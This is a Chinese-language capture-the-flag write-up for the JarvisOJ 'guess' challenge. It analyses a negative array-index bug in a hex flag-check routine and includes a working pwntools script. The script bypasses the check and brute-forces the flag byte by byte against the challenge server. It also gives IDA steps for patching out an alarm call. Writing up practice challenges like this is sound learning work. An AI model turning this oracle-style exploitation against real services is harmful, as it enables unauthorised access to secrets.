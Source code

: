 ```yaml
---
title: javisOj->Guess
categories:
-  jarvisOj
---
```


# jarvis->guess

## 前言

周末摸鱼，看做出来的人数以为好做，结果GG，感觉这个题有点像以前看过的一道crypto，总结一下好了

## 程序逻辑

下载下来的文件是用来本地测试的，开了socket，监听9999端口，其实就是模拟服务器跑的程序，所以本地通信建一个socket就好。重点是is_flag_correct()函数，是一个验证用户输入的函数，所以这个看起来更像一个逆向题。

调用这个函数前有一个fgets(inbuf,0x1000,stdin)，如果长度这么长，那么在flag_hexa = flag_hex的时候构造一个100*'A'+'\x00'即可绕过长度检查，造成溢出，不过这个测试之后发现好像没什么用，fuzz没什么异常，继续看函数，里面check flag是通过跟一个预存在栈上的flag数组对比确定的，但是是通过bin_by_hex这个数组做了一次映射确定，而这个数组初始化又是由0x401100LL地址上的数据完成的，有趣的是这个数组的0x30处正是0，其ascii码也是0x30，同理A-F的ascii码对应其数组的索引。因此这个比较只需要用户按顺序输入flag即可，这个比较当然不如直接让用户输入和flag对比来的快，所以这里面一定有什么设计。

![code](1.jpg)
![code2](2.jpg)
![bin_by_hex](3.jpg)

## 程序漏洞
漏洞就出现在数组索引的检查，数组其实就是一个字符串指针，array[i]等同于*(array+i)，所以当i为负数时，其得到的数据是字符串指针低地址处的数据，这里的flag位置是ebp-0x150，bin_hex_index的位置在ebp-0x110，因此bin_hex_index[-0x40]即flag[0]，想要验证成功，只需value1 = 0,value2 = flag[i]。flag[i] = bin_hex_index[-0x40+i]，即用户输入chr(-0x40+i)，但是注意chr()范围是0-256，因此-0x40+i需要+0x100(模100类似格式化字符串以前的知识)，最终构造出一个完美验证通过的payload。
仅仅通过验证不是目的，我们还得知道真正的flag是什么，这里因为我们已经通过payload通过了验证，那么现在只需要修改Payload的第一、二字节，使其为ascii(20-127)，重复验证，一旦得到通过即可确定第一个字节，后面的也同理，两个字节两个字节的确定，直到所有payload都被替换成真正的flag

## exp.py

```python
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level="error")
sh = remote('pwn.jarvisoj.com',9878)
def guess(data):
    sh.recvuntil('guess> ')
    sh.sendline(data)
    response = sh.recvline().strip('\n')
    if response == 'Nope.':
        return 1
    else:
        return 0
init_payload = ''
offset = 0x100-0x40
for i in range(100):
    if i % 2 == 0:
        init_payload += '0'
    else:
        init_payload += chr(offset + (i-1)/2)
print len(init_payload)
#init_payload = "504354467b3439643433313061313038353837353536373933323635316535353965313533636663386264323762340" + init_payload[95:]
while True:
    for i in range(0,100,2):
        for j in range(20,128):
            temp = hex(j)[2:]
            init_payload = init_payload[:i] + temp.ljust(2,'0') + init_payload[i+2:]
            if guess(init_payload) == 0:
                break
        print str(i)+':'+init_payload
    break
print init_payload
flag = init_payload.decode('hex')
print flag
```

中间recv会报timeout，可以修改for循环start，断点验证，之后hex_encode即可

## 编外
看别人的wp有说patch改掉alarm然后方便调试的，这里也记录一下吧，虽然自己没调试

找到call _alarm位置，option->general,number of opcode bytes改为8
选中mov edi,78h call _alarm,打开Edit->Patch Program->change bytes
最后Edit->Patch Program->Apply patches to input file

![patch](5.jpg)
![res](6.jpg)

